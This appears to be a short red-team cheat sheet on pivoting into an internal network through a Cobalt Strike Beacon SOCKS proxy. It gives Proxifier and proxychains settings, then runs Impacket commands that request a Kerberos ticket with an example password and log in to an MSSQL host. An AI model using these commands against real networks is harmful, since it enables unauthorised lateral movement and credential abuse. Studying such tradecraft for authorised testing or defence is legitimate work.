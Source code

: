 
Add manual DNS entries
```powershell
Add-Content -Path C:\Windows\System32\drivers\etc\hosts -Value '10.10.120.1 lon-dc-1'

Add-Content -Path C:\Windows\System32\drivers\etc\hosts -Value '10.10.120.20 lon-db-1'
```

Start a socks proxy within Beacon
```powershell
socks 1080 socks5
```

##### Proxifier
1. Go **Profile** > **Proxy Servers** and add a new proxy server.
	- Address: `teamserver_ip`
	- Port: 1080
	- Protocol: Version 5
	- Use this proxy by default? -> No.
2. Go **Profile** > **Proxification Rules** and add the following rule
	- Name: Beacon
	- Applications: Any
	- Target hosts: 10.10.120.0/23
	- Target ports: Any
	- Action: Proxy SOCKS5 10.0.0.5

##### Proxychains

Edit `/etc/proxychains.conf` accordingly
```powershell
socks5 [teamserver_ip] 1080
```

Use proxychains to requests tickets and perform attacks
```bash
proxychains getTGT.py 'CONTOSO.COM/rsteel:Passw0rd!' -dc-ip 10.10.120.1

proxychains mssqlclient.py contoso.com/rsteel@lon-db-1 -windows-auth -no-pass -k -dc-ip 10.10.120.1
```